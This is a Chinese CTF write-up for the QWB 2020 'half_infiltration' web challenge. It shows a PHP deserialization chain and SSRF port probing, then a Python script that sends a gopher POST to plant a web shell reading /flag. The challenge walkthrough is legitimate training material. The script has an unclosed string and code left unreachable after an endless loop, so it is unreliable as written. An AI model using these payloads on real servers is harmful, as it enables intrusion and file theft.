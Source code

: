 ```yaml
---
title: qwb2020web复现
author: ch4ser
date: 2020-08-27 20:48:12
categories:
  - CTF
typora-root-url: ../
cover:
  image: image-20211114141959846.png
---
```


## half_infiltration

开局的页面如下

```php
<?php
highlight_file(__FILE__);

$flag=file_get_contents('ssrf.php');

class Pass
{


    function read()
    {
        ob_start();
        global $result;
        print $result;

    }
}

class User
{
    public $age,$sex,$num;

    function __destruct()
    {
        $student = $this->age;
        $boy = $this->sex;
        $a = $this->num;
    $student->$boy();
    if(!(is_string($a)) ||!(is_string($boy)) || !(is_object($student)))
    {
        ob_end_clean();
        exit();
    }
    global $$a;
    $result=$GLOBALS['flag'];
        ob_end_clean();
    }
}

if (isset($_GET['x'])) {
    unserialize($_GET['x'])->get_it();
} 

```

思路是进行两次反序列化, 第一次将$_GLOBALS['flag']赋值给全局变量$result, 第二次反序列化是让程序在``ob_end_clean()``执行之前报错退出. ``ob_start``会打开输出缓冲

> 启用输出缓冲会导致PHP开始存储你输出的脚本而不是立即将它们发送到客户端。当脚本结束或者你调用了ob_flush()函数，PHP才会将内容发送到客户端。

``ob_end_clean``会将输出缓冲的内容进行一个清空, 那么如果要看到$result的内容的话, 我们就需要在``ob_end_clean``之前退出程序. 通过将$a赋值为this可以做到让程序报错退出.

```php
<?php

class Pass{
    function read(){
	// ob_start();
	global $result;
	print $result;
    }
}

class User{
    public $age, $sex, $num;
    function __construct($a, $b, $c)
    {
	$this->age = $a;
	$this->sex = $b;
	$this->num = $c;
    }
}
echo urlencode(serialize([
    new User(new Pass(), "read", "result"),
    new User(new Pass(), "read", "this")
    ]));

?>

```

然后我们可以看到ssrf.php的内容

```php
<?php 
//经过扫描确认35000以下端口以及50000以上端口不存在任何内网服务,请继续渗透内网
    $url = $_GET['we_have_done_ssrf_here_could_you_help_to_continue_it'] ?? false; 
	if(preg_match("/flag|var|apache|conf|proc|log/i" ,$url)){
		die("");
	}

	if($url)
    { 

            $ch = curl_init(); 
            curl_setopt($ch, CURLOPT_URL, $url); 
            curl_setopt($ch, CURLOPT_HEADER, 1);
            curl_exec($ch);
            curl_close($ch); 

     } 

?>
```

扫描发现

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/

有东西

```html
HTTP/1.1 200 OK
Date: Thu, 27 Aug 2020 13:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=60uap1c9tcik5f1ivmqqp933g2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1121
Content-Type: text/html; charset=UTF-8



<!DOCTYPE html>
<html>

<head>
	<title>Message Board</title>
	<link rel="stylesheet" href="css/bootstrap.min.css" />
</head>

<body>
	<div class="container" style="text-align:center;vertical-align:middle;">

		<div class="row" style="text-align:center;vertical-align:middle;">
			<h1>Message Board </h1>
		</div>
		<div class="row">
			<br><br>
			<p class="lead">
				Since there is only one administrator, a person can only submit one opinion at a time.
				Each time a new opinion is submitted, all old comments will be deleted
				<br><br>
                </p>
		</div>

		<br>

		<div class="row" style="text-align:center;vertical-align:middle;">

			<form method="POST" class="form-inline">
				<div class="form-group">
					<input class='form-control' type="text" name="file">
	</div>
					<div class='panel-body'>
						<textarea class='form-control' name='content' rows='6'></textarea>
						<br>
						<br>
						<div class="form-group">
							<button type="submit" class='btn btn-default col-md-2 form-control' value="Submit">Submit</button>
						</div>




			</form>

		</div>
```

同时

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/

可以访问, 那么这里应该是上传东西到目录下面了.这里使用gopher协议来发送post上传文件, 这里依然会有一个过滤, 包括等号在内的几种符号和字母组合都被过滤了,使用二次编码协议来绕过. 

```php
import requests
from urllib.parse import urlencode, quote_plus, quote

url0 = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=gopher://127.0.0.1:40000/_"

upload_data = {
    'file':'php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php',
    'content':'UEQ4OVlHTmhkQ0F2Wm14aFoyQTc' # 似乎可以正常解密的base64都无法写入文件中
}
upload_data = urlencode(upload_data, quote_via=quote_plus)
print(upload_data)

gopher_content = '''POST / HTTP/1.1
Host: 127.0.0.1:40000
Cookie: PHPSESSID=hhhhhhhhhhhhhhhhhhhhhhhaaa;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {length}

{data}'''.format(length = len(upload_data), data=upload_data).replace('\n', '\r\n')


#  ssrf need double url encode
url = url0 + quote(quote(gopher_content))

header = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}

while True:
    requests.get(url, headers=header)

validate = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/hhhhhhhhhhhhhhhhhhhhhhhaaa/shell.php

res = requests.get(validate)
print(res.content)

```

![image-20211114142011268](image-20211114142011268.png)
